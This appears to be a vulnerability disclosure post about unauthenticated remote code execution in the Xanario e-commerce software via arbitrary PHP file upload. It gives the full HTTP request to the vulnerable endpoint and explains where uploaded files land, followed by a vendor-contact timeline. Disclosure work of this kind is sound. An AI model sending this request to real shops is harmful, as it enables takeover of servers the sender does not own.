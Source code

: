 # Unauthenticated Remote Code Execution (RCE) via Arbitrary File Upload in Xanario

Xanario presents itself as an e-commerce solution designed to streamline online retail. More information can be found at [xanario.de](https://xanario.de).  

Interestingly, purchasing their software requires customers to share their FTP credentials and admin password through a PDF form—an approach that speaks volumes about their understanding of security best practices.

The vulnerability at hand allows unauthenticated attackers to upload arbitrary PHP files through a seemingly innocuous endpoint: `/404.php?action=add_product`. This file upload does not require any authentication and leads directly to remote code execution.


```http
POST /404.php?action=add_product HTTP/2
Host: localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymHYufpymkCWywEX5
Content-Length: 488

------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="number_of_uploads"

1
------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="products_id"

1
------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="upload_1"

bar
------WebKitFormBoundarymHYufpymkCWywEX5
Content-Disposition: form-data; name="id[txt_bar]"; filename="asdf.php"
Content-Type: image/png

<?php evilstuff..;?>
------WebKitFormBoundarymHYufpymkCWywEX5--
```

The uploaded file will be available at `/upload` with a stripped down md5 based on *microtime*. e.g:
```bash
> ls upload
b889c2a25_asdf.php
```

This disclosure marks the first installment in a series of identified vulnerabilities affecting Xanario. Users and administrators are strongly encouraged to evaluate safer alternatives and reconsider their reliance on this software.

Stay tuned for more insights as we continue to explore Xanario’s security landscape.

---

## Timeline
* December 24, 2024: Initial vulnerability report sent to the vendor. No response received.
* February 12, 2025: Follow-up notification sent. Still no reply.

